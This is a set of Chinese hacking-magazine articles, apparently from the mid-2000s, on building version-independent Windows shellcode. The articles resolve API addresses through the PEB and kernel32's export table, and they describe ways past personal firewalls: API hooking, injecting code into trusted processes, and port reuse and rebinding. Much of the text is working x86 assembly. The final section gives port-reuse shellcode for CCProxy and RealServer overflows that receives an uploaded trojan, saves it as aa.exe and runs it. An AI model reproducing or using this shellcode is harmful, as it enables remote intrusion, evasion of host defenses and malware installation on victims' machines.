上次已经讲过，Windows 下函数的执行过程是先将参数压入堆栈，再直接 Call 函数的地址。比如执行 `WSAStartup(0x202, &wsa)`，就是：

```asm
sub esp, 0x200
push esp        // 第二个参数 &wsa 入栈
push 0x202      // 第一个参数 0x202 入栈
call 0x71a241da // 0x71a241da 为 WSAStartup 在 XP SP0 中的地址


```

参数的入栈都简单，但最后一步就有点麻烦了，因为 Windows 系统有诸多的版本，如 Windows 98/NT/2000/XP/2003 等，而且每个版本又有很多不同的补丁集，如 SP0、SP1 等。同一个函数，在不同的版本或补丁集系统中，地址会不一样。如果我们直接写成 `Call 0x71a241da` 的形式，那么在非 Windows XP SP0 的系统中就不能正确执行了。

在 Windows 2000 SP2 年代，经典的 Printer、IIS、Iqd 等溢出利用工具都有一个选项——选择目标计算机的 SP 版本。现在你应该清楚了吧？这个项的作用就是对不同 SP 的目标系统使用不同函数地址的 ShellCode。但是预先得知对方的系统，特别是补丁号，是件很困难的事，没有管理员账号的情况下，想远程获得对方系统的 SP 号，理论上是不太可能的。

如果旁路测试，现在 Windows 2000 有 5 个，Windows XP 也有 3 个不同的 SP，一次次不断地试 ShellCode 非常麻烦，而且一些漏洞只能攻击一次，如果失败就只能等待对方重启后才能再攻击，所以我们需要一种方法，动态获得当前目标计算机上的版本信息或真正的函数地址。获得真正的函数地址后，再 Call 该地址就可以保证在不同的系统都能正确地执行 ShellCode 了。

#### 动态获取地址的思路

如何动态获得函数地址呢？我们想想，因为远程探测知道对方的 SP 号一般不可能，那么就只能在对方机器上获得 SP 号或函数地址，而缓冲区溢出时，ShellCode 的执行流程是：溢出 -> 覆盖返回点 -> 进入 ShellCode 执行。如果对该流程还不熟悉，多看看以前黑防的文章。正好，ShellCode 是在对方机器上执行的，而能否进入 ShellCode 只和 JMP ESP 或 POP POP RET 指令的地址有关，所以我们可以考虑刚进入 ShellCode 时，就做获取 SP 号或函数地址的工作。

在正常情况下，获得函数地址一般是使用 LoadLibrary 和 GetProcAddress 来完成的。在上次的文章中，使用该方法获得地址的抓图如图1所示。类似地，我们可以在 ShellCode 中，先用 GetProcAddress 函数获得其他函数的地址，这就是当时所在的目标系统上的地址。除了 GetProcAddress 外，还需要知道 LoadLibrary 的地址，我们就可以利用这两个函数来动态获得其他函数的地址并存起来，以后要调用函数的时候，就使用查找出来的地址，从而完成具有通用性的 ShellCode。
图1
图2

思路是这样，但 GetProcAddress 和 LoadLibrary 如何得到呢？LoadLibrary 函数是在 Kernel32.dll 中，任何程序都会加载 Kernel32.dll，所以 LoadLibrary 函数的地址也可以通过 GetProcAddress 来获得。那么就只剩下获得 GetProcAddress 函数地址的问题了。

GetProcAddress 函数位于 Kernel32.dll 中，是 Kernel32.dll 的引出函数，那么我们搜索 Kernel32.dll 的引出表，就一定会找到 GetProcAddress 函数的地址。但首先 Kernel32.dll 的地址在哪儿呢？不同的系统都一样么？

不同的系统中，Kernel32.dll 的地址是不一样的，但我们可以通过 Windows 的系统结构来获得 Kernel32.dll 的基址。获得 Kernel32.dll 地址的方法很多，但比较优雅的是利用 PEB 结构来获得，简单来说步骤如下：

- 1. `fs` 寄存器指向 TEB 结构。  
- 2. 在 `TEB+0x30` 地方指向 PEB 结构。  
- 3. 在 `PEB+0x0C` 地方指向 `PEB_LDR_DATA` 结构。  

在 `PEB_LDR_DATA+0x1C` 地方就是一些动态连接库的地址了，如第一个指向 ntdll.dll，第二个就是 Kernel32.dll 的地址。更直接的汇编代码实现为：

```asm
mov eax, fs:[0x30]        ; PEB 的地址
mov eax, [eax + 0x0c]     ; Ldr 的地址
mov esi, [eax + 0x1c]     ; Flink 地址
lodsd
mov eax, [eax + 0x08]     ; eax 就是 Kernel32.dll 的地址
```

测试一下，在 VC 中用 `__asm` 关键字嵌入汇编调试，得到本机上的 Kernel32.dll 地址为 `0x77E40000`，如图2所示，果然正确，和图1中的值一样。

找到了 Kernel32.dll 的地址后，我们奔向想要的 GetProcAddress 函数的地址吧。方法就是利用 Kernel32.dll 中的引出表！

> 小知识：在 Windows 下，每个 DLL 都有引出表，指明该 DLL 里面实现的函数有哪些、名称是什么、地址为多少。这样外部程序就可以方便地调用 DLL 里实现的函数，而不必关心实现的具体细节。

PE 头部偏移在 `Kernel32.dll` 基址 + `0x3C` 的地方，而引出表的位置在 `Kernel32.dll` 基地址 + PE 头部地址 + `0x78` 的地方。引出表的结构如下：

```c
typedef struct _IMAGE_EXPORT_DIRECTORY
{
    Characteristics;      // 4
    TimeDateStamp;        // 4
    MajorVersion;         // 2
    MinorVersion;         // 2
    Name;                 // 4  DLL模块名字
    Base;                 // 4  基数，加上序数就是函数地址数组的索引值
    NumberOfFunctions;    // 4
    NumberOfNames;        // 4
    AddressOfFunctions;   // 4  指向函数地址数组
    AddressOfNames;       // 4  函数名字的指针地址
    AddressOfNameOrdinal; // 4  指向输出序列号数组
}


```

结构虽然复杂，但和获得函数地址相关的只是最后几项。举个具体的例子来看，如图3所示。
图3

NumberOfFunctions 字段，为 AddressOfFunctions 指向的函数地址数组的个数，这个例子中是 3；

NumberOfNames 字段，为 AddressOfNames 指向的函数名称数组的个数，这里是 2；

AddressOfFunctions 字段，指向模块中所有函数地址的数组；

AddressOfNames 字段，指向模块中所有函数名称的数组；

AddressOfNameOrdinals 字段，指向 AddressOfNames 数组中函数对应序数的数组。

在通过函数名称查找函数地址时，先在函数名称数组 AddressOfNames 中找到想查找的函数名，然后在函数序号数组 AddressOfNameOrdinals 中得到对应的函数序号，最后根据这个序号，在函数地址数组 AddressOfFunctions 中得到函数对应的地址值。比如在这个导出表例子中我们想得到函数 WW3() 的地址，步骤如下：

首先从 AddressOfNames 开始，依次在函数名数组中查找与函数名称 WW3 相同的项，可以看到，WW3 在 AddressOfNames 中是第二项；

然后，在 AddressOfNameOrdinals 中查看第二个项里存的序号值是多少，这里是 3；

最后，根据序号 3，在 AddressOfFunctions 数组的第 3 个函数地址项中，查找出 WW3 函数的地址为 0x400303。

- 1. 通过 TEB/PEB 获取 Kernel32.dll 基址
- 2. 在 (Kernel32 基址 + 0x3c) 处获取 PE 头部基址；
- 3. 在 (Kernel32 基址 + PE 头部基址 + 0x78) 处获取导出表地址（后面为描述方便简称 export）；
- 4. 在 (Kernel32 基址 + export + 0x1c) 处获取 AddressOfFunctions、AddressOfNames、AddressOfNameOrdinals；
- 5. 搜索 AddressOfNames，确定 “GetProcAddress” 所对应的 index；
- 6. index = AddressOfNameOrdinals[index]，函数地址 = AddressOfFunctions[index]。

```asm
mov     ebp, 0x77E40000      ; Kernel32.dll 基址
mov     eax, [ebp+3Ch]       ; eax = PE 首部
mov     edx, [ebp+eax+78h]
add     edx, ebp             ; edx = 导出表地址
mov     ecx, [edx+18h]       ; ecx = 导出函数的个数
...
```

```asm
mov   ebx,[edx+20h]
add   ebx,ebp                ; ebx = 函数名地址，AddressOfNames
search:
dec   ecx
mov   esi,[ebx+ecx*4]
add   esi,ebp                ; 依次找每个函数名称，GetProcAddress
mov   eax,0x50746547
cmp   [esi],eax              ; 比较 'PteG'
jne   search
mov   eax,0x41636f72
cmp   [esi+4],eax            ; 比较 'Acor'
jne   search                 ; 如果是 GetProcA，表示在 AddressOfNames 中找到了
mov   ebx,[edx+24h]
add   ebx,ebp                ; ebx = 序号数组起址
mov   cx,[ebx+ecx*2]         ; ecx = 计算出的序号值
mov   ebx,[edx+1Ch]
add   ebx,ebp                ; ebx = 函数地址数组起始位置，AddressOfFunctions
mov   eax,[ebx+ecx*4]
add   eax,ebp                ; 利用序号值，得到 GetProcAddress 的地址
```

#### 动态获取函数地址

有了前面这些基础，我们可以把突破防火墙的 ShellCode 改为通用版本。上次的代码是将固定的函数地址直接放在数组中，等待后面调用。这里我们加上一段动态获得函数地址，然后再存入数组中的代码：

```asm
push ebp
sub  esp, 50
mov  ebp,esp
; 中间为上面的获取 GetProcAddress 地址代码，略
mov  [ebp+40h], eax          ; 把 GetProcAddress 地址放在 ebp+40h 中

; 有了 GetProcAddress 函数地址后，可以查找 LoadLibrary 的地址了
push 0x0
push dword ptr 0x41797261
push dword ptr 0x7262694c
push dword ptr 0x64616f4c     ; 在堆栈中构造 LoadLibraryA 字符串
push esp
push edi
call [ebp+40h]                ; GetProcAddress(Kernel32 基址, "LoadLibraryA")
mov  [ebp+44h], eax           ; LoadLibraryA 地址存入 ebp+44h

; GetProcAddress 和 LoadLibrary 两个函数地址都有了，开始查找其他函数地址
```

```asm
; 第一个查找 CreateProcessA 的地址，也是在 Kernel32 中的
push dword ptr 0x00004173
push dword ptr 0x7365636f
push dword ptr 0x72506574
push dword ptr 0x61657243
push esp
push edi
call [ebp+40h]
mov [ebp+4], eax ; CreateProcessA 地址

; 查找 Ws2_32 中的函数地址了，首先是加载 Ws2_32 这个 dll
push dword ptr 0x00003233
push dword ptr 0x5f327357
push esp
call [ebp+44h] ; LoadLibrary(Ws2_32)
mov edi, eax

; 查找 WSAStartup 地址
push dword ptr 0x00007075
push dword ptr 0x74726174
push dword ptr 0x53415357
push esp
push edi
call [ebp+40h]
mov [ebp+8], eax ; WSAStartup

; 查找 WSASocketA 地址
push dword ptr 0x00004174
push dword ptr 0x656b636f
push dword ptr 0x53415357
push esp
push edi
call [ebp+40h]
mov [ebp+12h], eax ; socket

; 查找 setsockopt 地址
push dword ptr 0x00007470
push dword ptr 0x6f6b636f
push dword ptr 0x73746573
push esp
push edi
call [ebp+40h]
mov [ebp+16h], eax

; 查找 bind
...

; 查找 listen
push dword ptr 0x00006e65
push dword ptr 0x7473696c
push esp
push edi
call [ebp+40h]
mov [ebp+24h], eax ; listen
```

```asm
0x7473696c
; 查找 accept
push dword ptr 0x00007470
push dword ptr 0x65636361
push esp
push edi
call [ebp+40h]
mov [ebp+28h], eax ; accept
0x65636361


```

加上动态获取函数以后，后面的代码不变，连起来测试一下，具体代码参看光盘。如图 4 所示。
图 4

成功了，看到了吗？明白了方法，不费多少工夫把实现代码写出来，这是件很惬意的事。通过上面的方法，我们就得到了不同系统都完全通用的代码，无论对方是什么版本和语言的 Windows 系统，都可以用这种方法打造绝对通用的 ShellCode！如果想怀旧，可以把以前的 Printer 溢出利用程序改改，改成通用的 ShellCode，就可以不带那个对方系统版本的参数了，如图 5 所示。
图 5

最后用上次文章介绍的方法，简便地把汇编提取成 ShellCode。如果还想定制对方的 IP 地址，那么只需数出绑定 IP 时的字符位置，就可以随心所欲地指定更改 IP 地址的值了，这点留给大家自己做吧。[本文涉及的代码（程序），请见随书光盘]

**WTF：** 溢出技术发展到今天，其内涵其实早已超越了“溢出”概念本身。随着攻防爱好者们对溢出技术的不断研究，更多 Windows 底层的东西被挖掘出来展现在世人面前。就最近几个月而言，关于溢出技术讨论得最多的可能就是如何突破个人防火墙的问题了。

## 《东邪》之 突破 Windows 个人防火墙
文／图 dangguai27

近期，从 San 的《渗透防火墙的 ShellCode 技术》、Phrack 的《p62-0x0d_Bypassing_Windows_personal_fw_with_process_infection》，到 2005 年《黑客防线》第 12 期中我和 ww0830 先后发表的相关文章，都展示了人们对最终解决个人防火墙这个溢出技术瓶颈问题的决心。

在这里，我想结合我自己一段时间的研习，对当前突破 Windows 个人防火墙的溢出技术的几种手段作一一阐述。这是我自己的一个小结，也希望能给正在研究该技术的朋友们起一点借鉴作用。

#### 东邪双 Hook：复用当前连接

“东邪”黄药师在原《射雕》中先出场，我这里也以他来开头吧。留意前面说的“双 Hook”，我的意思是说 Hook 技术可以以两种方式复用在当前的连接中：挂接本进程中 API 调用和挂接其他进程中 API 调用。San 在《渗透》中介绍的是前一种方式，在实现过程中我发现这种方式可能有一些问题难以解决，因此这里主要讨论后一种方式。

先来看看模式图，如图 1 所示。然后再看看技术细节。

##### 1. 在服务进程中查找当前连接的 Socket 及其问题

根据 San 在《渗透》中的描述，实现细节我们不难理解。客户端发送包含 ShellCode 的攻击数据包后，紧接着再发送几个字节的校验串（如“PASS”）。也就是说，客户端连续两次 Send()，真正的攻击数据 ShellCode 通过第一次 Send() 到达服务端，并且在溢出产生后开始执行。

ShellCode 的功能是对递增的 Socket 通过 WaitForSingleObjectEx() 函数返回值是否为 0 来进行筛选，再对满足条件的 Socket 值来调用 Recv() 接收客户端发送的校验字符串。最后，比较这些校验字符串是否为约定的字符串（“PASS”），是的话则认为是当前连接的 Socket。
上述过程从理论上讲是可行的，但我在实现过程中，却出现了一个不可回避的问题：ShellCode 执行在对方服务进程中，客户端在连续发送两次数据之间的时间内不能接收服务端的任何确认信息，因为服务端在找到可用的 Socket 之前无法正确调用 Send()。此外，由于我们此前并不清楚服务进程为接收请求数据而开辟的缓冲区大小，这可能会导致服务端在第一次接收 ShellCode 时将第二次的校验数据一并接收，从而在第二次接收的时候收不到指定的数据，最终查找 Socket 失败。

举个例子，客户端发送攻击数据 ShellCode 时，Send() 函数分配的缓冲区大小为 1024，发送校验字符串时，Send() 函数分配的缓冲区大小为 4。如果服务端进程为接收客户端请求开辟的缓冲区为 2048，则在接收 ShellCode 时就会实际接收 1024 + 4 = 1028 个字节，而在真正接收校验字符串时接收到乱码，这样又如何能够正确找到当前连接的 Socket 呢？我尝试过利用 Sleep() 来处理服务端和客户端的同步问题，可以解决问题，但这样实现起来较为复杂，也不是很好的解决方法。

要寻求通用的解决方法，我们有必要知道服务端进程为接收客户端请求而开辟的缓冲区大小。但是服务进程内部实现对我们是透明的，我们要获取其 Recv() 中的参数，只能依靠 Hook 了。

##### 2. Hook API 技术在查找当前连接 Socket 中的应用

Hook 技术一般分两类，一类是标准 Hook，它挂接 Windows 消息，然后进行处理，这是通过 SetWindowsHookEx() 来安装的；另一类是所谓的非标准 Hook，这是专门针对 Hook API 的，通过改写进程虚拟地址空间中函数前几个字节为 JMP XXX 来实现。

我们的目标很清晰，就是要通过 Hook 指定进程中的 Recv 函数，获取该进程中为了接收客户端请求而开辟的缓冲区大小。因为服务在同一版本系统上都是一样的，因此要实现这一步，可以重新编写 Hook 程序（图 1 中所述）在本机进行。

##### 3. 将 Hook 代码写成 DLL

DLL 中包含了作为替换的新函数 MyRecv()，整个 Hook 其实是在 DLL 的初始化函数 DllMain() 中实现的。通过 VirtualProtect() 和 WriteProcessMemory() 来将 Recv() 函数的前几个字节改写为跳转到 MyRecv() 的 JMP 指令。值得注意的是 Recv() 函数包含在两个库中：wsock32.dll 和 ws2_32.dll 中，因此 Hook 的时候需要对这两处的 Recv() 进行处理，避免产生漏 Hook。MyRecv() 中的主要代码如下：

```asm
{
    push esi
    mov  esi, [ebp + 10h]
    mov  nLen1, esi
    pop  esi
}

// 跳到 MyRecv() 中时堆栈没有发生变化
```

```c
// 我们的函数功能是记录下参数 len
FILE *fp;
fp = fopen("d:\\recv.txt", "w");
fprintf(fp, "%d\n", nLen1);
fclose(fp);
```

这几句代码执行以后，Recv() 的第三个参数 len 就写到了指定文件中。获取了 len 后，再恢复原函数的正常调用。

##### 4. 将生成的 DLL 插入指定进程中

这个在很多资料上都有介绍，通过 CreateRemoteThread() 来实现。

```c
HANDLE CreateRemoteThread
(
    HANDLE hProcess,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);


```

该函数在指定服务进程中创建一线程，参数 lpStartAddress 为 LoadLibrary() 在进程空间中的首地址，同一版本操作系统中值是一样的。lpParameter 为我们 DLL 的名称。由于 Windows 进程对字符串采用的是硬编码方式，所以必须通过 VirtualAllocEx() 和 WriteProcessMemory() 将 DLL 的名称写到目标进程中，再获取其在该进程中的地址。进程句柄 hProcess 通过 OpenProcess() 获取，而 OpenProcess() 中的进程 ID 即进程查看工具可以直接获得。值得注意的是：如果 Hook 的是系统进程的 API，则必须先通过 AdjustTokenPrivileges() 来提升本应用程序的权限。

除了上面那种方式外，还有一种方式是 San 在《渗透》中介绍的，思路是直接将 Hook 代码嵌入 ShellCode 中，由 ShellCode 进行 Hook 操作。具体实现步骤如下。

- 溢出发生后，首先用 VirtualProtect 设置真实 recv 函数地址开始的 5 个字节为可写。
- 把真实 Recv() 开始的指令改为跳转到新 recv 函数。
- 在新的 Recv() 函数里先把这 5 个字节指令改回去。
- 调用真实 Recv() 来进行系统本来的操作。
- 再把真实 Recv() 函数地址开始的 5 个字节改为跳转新 recv 的指令。
- 比较接收的数据是否是校验串，是的话则认为是当前连接，进而可以进行通信。

我在实现过程中发现其实这种方式仍然存在前面的问题，在构造 ShellCode 数据包时参数 len 难以确定下来，最终查找失败。这个方法可能还需要进一步研究，如果大家有什么好的想法，还希望能不吝指教。为了便于理解，我写了示例代码放在光盘中。

#### 西毒之代码注入：将通信代码注入可信任进程

“西毒”欧阳锋古有蛤蟆功，今天却练就了横行天下的注入。现在研究的突破防火墙技术，其实都是指在将黑客们第一次的攻击代码成功植入远程主机并执行后，如何通信的问题。Phrack62 对在 Windows 中如何解决此类问题作了讲解。

假设这样一种情况：远程主机上的个人防火墙设置允许本机用户访问外部的 www 端口和邮件端口。换句话说，就是允许 IE 和一些邮件客户端软件等应用程序访问网络。因此，如果我们对该主机系统中某个服务成功溢出，就可以通过 ShellCode 将其中一部分代码嵌入这些合法的应用程序中，达到渗透的效果。模式如图 2 所示。
##### 1. 可信任进程的选择

防火墙不阻截的数据，无非是它认为合法的数据。对于一般的个人防火墙，不论是默认配置，还是人为配置，都会有一些被允许访问网络的应用程序，如 IE、Svchost、Foxmail 等等。因此，由这些程序对应的进程，我们认为是被防火墙所信任的。溢出成功后，ShellCode 首先要做的就是隐式地（SW_HIDE）创建这样的子进程。在客户端，我们应该监听这些合法进程所允许访问的端口。当然，连接的是我们的处理代码。

##### 2. 将部分 ShellCode 代码嵌入可信任进程中

有两种方式可以将代码嵌入目标进程中：一种是直接在目标进程中创建远程线程，另一种是改写目标进程主线程上下文中的线程函数返回地址，使得该函数返回后跳转到我们的代码中去执行。

- 1) 直接在目标进程中创建远程线程

这种方式主要是通过 `CreateRemoteThread()`、`VirtualAllocEx()` 以及 `WriteProcessMemory()` 这 3 个函数来实现的。由 `VirtualAllocEx()` 在目标进程中分配空间，再由 `WriteProcessMemory()` 将待嵌入的二进制代码写入前面分配的地址空间中，最后将该代码地址作为参数，调用 `CreateRemoteThread()` 来执行这些代码。

这种方式可能会引起一个问题，如果个人防火墙内部机制是 Hook 了 `CreateRemoteThread()`，并且对该函数进行了限制，我们的渗透就不会成功。

- 2) 改写目标进程主线程上下文中的线程函数返回地址

这种方式是针对上面的问题而提出的改进方案。与第一种方式不同的是，这里不需要在可信任进程里创建远程线程，而是通过改写该进程主线程函数返回地址来实现的。获取主线程上下文的函数是 `GetThreadContext()`，设置上下文的函数是 `SetThreadContext()`。至于函数返回地址 EIP，则是在 `CONTEXT` 结构中获取。

##### 3. 二进制代码的编写

这里主要指待嵌入的二进制代码对应的汇编编写。要编写统一的汇编代码，首先在代码开始的时候从 PEB 中找到 Kernel32.dll 首地址，然后再通过 DLL 的导出表找到 `GetProcAddress()` 地址，最后由 `GetProcAddress()` 得到所有需要的函数的地址。获取 `GetProcAddress()` 汇编代码见附带代码。

通过代码嵌入可信任进程的方式，优点是只要远程用户能够访问 www 服务，或者能收发邮件，它的渗透成功率就是比较高的。但如果该机器设置为不允许向外连接的话，渗透就肯定失败。

#### 南帝之复用：重复绑定进程开放端口

“南帝”段王爷的一阳指也是《射雕》中的一绝，这里再上一层楼，练就了难逢敌手的复用指。对于服务进程开放端口的重复绑定，是指溢出成功后，直接在原来的进程中重复绑定当前服务开放的端口，这样在新绑定端口上进行通信也一样能突破防火墙的限制。整个绑定的细节都在服务进程内完成，具体细节及示例代码……年《黑客防线》第一期《绝对突破防火墙》中有较为详细的介绍，敬请读者参考。

这种渗透方式优点是实现起来比较容易，但也有一些问题，比如135、139端口是不能重复绑定的，这是由于对应的服务可能设置了 `SO_EXCLUSIVEADDRUSE`。此外，攻击者应该注意将我们的功能和原来的服务区别开来。实现起来，只需先判断接收到的数据包是不是我们想要的数据，如果是则按照我们预定的方式处理。如果不是我们想要的，则通过127.0.0.1传送给真正的应用。

#### 北丐之重绑：重新绑定进程开放端口

“北丐”洪七公当年传授郭靖“降龙十八掌”，今日传授我们无敌重绑掌。服务进程端口的重新绑定实现起来较前一种方式复杂一些，但应用的范围却更广。实现的思路是创建一子进程，在该进程开始的同时父进程结束，然后重新绑定原来的服务端口，达到渗透防火墙的目的。这种方式我在《绝对突破防火墙》中也有详细描述，但后来发现其中有些不妥的地方，这里我正好作个修正，请大家对比参考。模式如图3所示。
在进入服务进程后，ShellCode执行步骤如下。

- 1. 通过API函数 `GetModuleFileName()` 获取当前进程对应可执行文件（xyz.exe）的绝对路径。
- 2. 通过 `MoveFile()` 将可执行文件xyz.exe移动到上级目录。
- 3. 通过 `GetEnvironmentVariable()` 获取系统中cmd.exe的绝对路径。
- 4. 通过 `CopyFile()` 将cmd.exe拷贝到当前目录，并存为xyz.exe。
- 5. 通过 `CreateProcess()` 创建suspend模式的子进程。子进程对应可执行文件为现在的xyz.exe，即复制并重命名后的cmd.exe，参数为/c命令，意思是运行该命令后进程退出。
- 6. 通过 `GetThreadContext()` 获取子进程主线程的上下文结构和寄存器信息。
- 7. 通过 `VirtualAllocEx()` 在子进程里分配内存。
- 8. 把SC2通过 `WriteProcessMemory()` 写入子进程刚才分配的空间。
- 9. 通过 `SetThreadContext()` 把 `GetThreadContext()` 获得的EIP修改，使指向前面 `VirtualAllocEx()` 分配的内存地址。
- 10. 通过 `ResumeThread()` 恢复suspend模式的子进程。
- 11. 通过 `TerminateProcess()` 结束当前进程。
- 12. 子进程退出时，其主线程函数先退出，这样在该函数返回后子进程会先跳到SC2去执行。

上述步骤中，将Cmd.exe复制到当前目录并重命名，而将真正的系统文件移动到上级目录，原因在于当前进程在当前路径开放原端口被防火墙信任，而Cmd.exe则不行。防火墙会给出询问告警，因此必须“冒充”原系统进程。

## 叶黄蓉之源心功：几种技术的综合考虑

《射雕》中虽然有众多武林高手，但论起智谋，当属黄蓉第一。引申到攻防技术中来，那就是人的思想往往胜于现成的方法。

针对突破防火墙这个问题，其实具体问题可能牵涉到方方面面，我们只有认真分析清楚每次出现问题的具体特征，才能够采用合适的技术手段去进行渗透。

#### 后记

到此为止，我已经将现有的突破Windows个人防火墙的ShellCode技术基本介绍完毕。由于时间有限，也可能由于研究得不够深入，因此难免有一些不足之处，希望大家能帮助指出，也还是希望这些东西能为大家作一些参考。我也真诚希望广大攻防爱好者们能够再接再厉，通过在黑客防线这个平台的不断交流，共同提高技术，为国为民做点事。

> ［本文涉及的代码(程序)，请见随书光盘］

## 学悟ShellCode的编写十四册

文/图 曹笙·汪杰
今年黑防1、4期我各写了一篇关于溢出技术中突破防火墙的文章，但是却没有给出实际的汇编例子。ww0830在2期中写了一个复用+监听端口的例子，总算是有个补充。前段时间由于学习要求，我需要再编写一个针对CCProxy和RealServer这两个溢出漏洞的攻击代码。ShellCode要求是：满足攻击机器位于NAT的内网中的情况，溢出后能突破防火墙限制、突破操作系统版本限制，能自动接收并执行文件，最后安全退出。这实际上是要编写一个综合性的ShellCode，结合这两个漏洞的具体情况，经过两整天的编写和调试最终成功，完整的ShellCode汇编代码和攻击程序参见文章附带的源码。这里我主要想和大家交流实现的思路和过程。

#### 制定最佳的防火墙突破思路及文件传送方式

攻击者的目标是攻击个人主机，这里的防火墙也专指个人防火墙(PFW)。防火墙突破思路的选取将直接影响汇编代码的复杂程度和文件的传送方式。为什么这么说呢？先简单回顾一下4期文章《射雕之突破Windows个人防火墙》中总结的几种防火墙突破方法。

- **方法一**：查找到当前连接的socket，再通过该连接完成指定功能（如传送文件）。关于socket的查找，有通过getpeername、字符串匹配、hook recv等方式。实践证明这些方式要么不通用于内网场景，要么对目标进程实现依赖较大，因此不应作为首选。
- **方法二**：端口复用。即溢出成功后在目标服务进程中重复绑定其开放的TCP端口。

该方法能满足我们的设计要求，但它存在一个限制：假如服务进程中绑定端口时通过setsockopt函数设置了 `SO_EXCLUSIVEADDRUSE` 选项的话，重复绑定该端口是不会成功的。那么究竟怎么检测服务进程是否设置了 `SO_EXCLUSIVEADDRUSE` 呢？比如检测CCProxy进程（对应808端口），在本地运行该进程，另外编写一程序，绑定808端口，并且设置：

```c
setsockopt( fd, SOL_SOCKET, SO_REUSEADDR,
    (char *)&val, sizeof(val) )


```

如果bind函数返回0，则说明未设置 `SO_EXCLUSIVEADDRUSE`，反之设置。

通过实验，CCProxy和RealServer服务进程中绑定端口时都没有设置 `SO_EXCLUSIVEADDRUSE`，看来采用端口复用的方法是可行的！不急，把其他两种方法看了再说，说不定有更好的方法呢。

- **方法三**：重新绑定服务进程开放端口。适用于第二种方法不起作用（即服务进程设置了 `SO_EXCLUSIVEADDRUSE`）时。需要在重新绑定端口之前退出进程、移植文件、创建进程、向新进程注入ShellCode等，因此更通用但实现复杂。
- **方法四**：代码注入可信任进程。常见做法是监听常用端口（如80），ShellCode执行时创建可信任进程（如Internet Explorer），再把通信部分通过 `CreateRemoteThread` 注入执行。若防火墙对外出端口限制严格可能失败，实现复杂度与方法三接近，但总体成功率较高。

比较完4种溢出成功后突破防火墙方法各自的优劣，毫无疑问，我选择第二种方法——端口复用。

接下来就是文件的传输方式。这里以目标系统为服务端，攻击者为客户端，客户端向服务器端上传文件，如图1所示。
## 取消系统版本的限制——ShellCode中API函数地址的动态获取

这部分不是什么新鲜的东西，在很多资料中都有描述，但它却是很基本、很重要的。编写ShellCode的过程中，会用到多个API函数来完成各种功能。但是不同的Windows版本（Windows2000、XP和Windows2003）中这些API函数地址不一样，如果用绝对的32位地址来表示的话，编写出来的代码是不通用的。另一方面，这些函数地址都是通过 `GetProcAddress` 和 `LoadLibraryA` 两个函数来获取的，而 `LoadLibraryA` 函数的地址又是通过 `GetProcAddress` 获取的。因此只需要通过PEB获取Kernel32.dll地址，再通过Kernel32.dll的输出表查找GetProcAddress地址就OK了。

```asm
mov eax, fs:0x30  // peb地址
mov eax, [eax + 0x0c]
mov esi, [eax + 0x1c]
lodsd
mov ebx, [eax + 0x08]  // ebx = Kernel32.dll基址

mov eax, [ebx + 0x3c]  // eax = PE header offset
mov eax, [ebx + eax + 0x78]
add eax, ebx
mov [ebp - 20h], eax
mov ecx, [eax + 0x18]
mov eax, [eax + 0x20]
add eax, ebx
mov DWORD ptr [ebp + 28h], eax
xor esi, esi
mov DWORD ptr [ebp + 24h], esi

mov dword ptr [ebp], 'PteG'
mov dword ptr [ebp + 4], 'Acor'
mov dword ptr [ebp + 8], 'erdd'
mov word ptr [ebp + 0xc], 'ss'
mov byte ptr [ebp + 0xe], 0
mov esi, ebp
push esi
push ecx
mov eax, [eax]
add eax, ebx
```

```asm
mov edi, eax
mov ecx, 14  // GetProcAddress的长度
rep cmpsb
jne FindNext  // 如果当前函数名不是指定的函数名则查找下一个
add esp,4
mov eax, [ebp + 20h]
mov eax, [eax + 0x24]
add eax, ebx

mov edi, DWORD ptr [ebp + 24h]
shl edi, 1
add eax, edi
mov di, [eax]
mov eax, [ebp+20h]
mov eax, [eax + 0x1c]
add eax, ebx
shl edi, 2
add eax, edi
mov eax, [eax]
add eax, ebx
jmp FoundLoadLibraryA

FindNext:
inc DWORD ptr [ebp + 24h]
add DWORD ptr [ebp + 28h], 4
mov eax, DWORD ptr [ebp + 28h]
pop ecx
pop esi
loop FindLoop

FoundLoadLibraryA:
mov [ebp+2Ch], eax  // EAX是GetProcAddress函数地址
```

其他函数的查找这里就不贴出来了，可参见具体代码。最后，将查找出来的所有函数地址全部放在 `[ebp + 40h]` 开始的位置。

#### 端口复用和文件传送的汇编实现

端口复用的部分代码如下：

```asm
push esi
push 2
call [ebp + 40h]  // WSAStartup

push 6   // IPPROTO_TCP
push 1   // SOCK_STREAM
push 2   // AF_INET
call [ebp + 44h]  // socket
mov [ebp + 28h], eax

push 4
mov dword ptr [esi + 400], 1
lea eax, [esi + 400]
push eax
push 4   // SO_REUSEADDR
push 0xffff // SOL_SOCKET
push [ebp + 28h]
call [ebp + 48h]    // setsockopt
mov word ptr [esi + 404], 2    // AF_INET
mov word ptr [esi + 406], 0x2A02    // htons(554)
mov dword ptr [esi + 408], 0    // ADDR_ANY

push 16
lea eax, [esi + 404]
push eax
push [ebp + 28h]
call [ebp + 4ch]    // bind

push 2
push [ebp + 28h]
call [ebp + 50h]    // listen

mov dword ptr [esi + 436], 16
lea eax, [esi + 436]
push eax
lea eax, [esi + 420]
push eax
push [ebp + 28h]
call [ebp + 54h]    // accept
```

其实上述实现过程就如同创建普通的网络服务程序一样，只是在为某些函数实参和返回值分配内存的时候应该注意不要发生地址重合。

端口绑定成功之后，就是等待客户端的连接了。一旦检测到客户端连接过来，ShellCode就向客户端发送确认信息。这里本来还应该检查连接发起者身份是否就是攻击者，只是我把这一步省略了。发送了确认信息之后，就一直接收客户端发送的木马文件数据，存放到文件 `aa.exe` 中，文件接收完毕后执行该文件。相关的汇编代码如下：

```asm
mov [ebp + 24h], eax    // 保存客户端socket
mov dword ptr [esi + 440], '!!ko'
mov byte ptr [esi + 443], 0
push 0
push 4
lea eax, [esi + 440]
push eax
push [ebp + 24h]
call [ebp + 58h]    // send "ok!"

mov dword ptr [esi + 444], 0x2E61615C
mov dword ptr [esi + 448], 0x0011657865
push 0x0180
push 0x8301
lea eax, [esi + 444]
push eax
call [ebp + 60h]    // _open 创建文件
mov dword ptr [ebp + 20h], eax    // 保存文件句柄
mov dword ptr [ebp + 1ch], 0x00027031    // 保存输入的文件大小
mov dword ptr [ebp + 18h], 0    // 保存已接收的文件大小
```

```asm
push 512    // 每次接收512字节文件数据
lea eax, [esi + 500]
push eax
push [ebp + 24h]
call [ebp + 5ch]    // recv
cmp eax, 0
jle end    // if eax <= 0 则接收失败退出
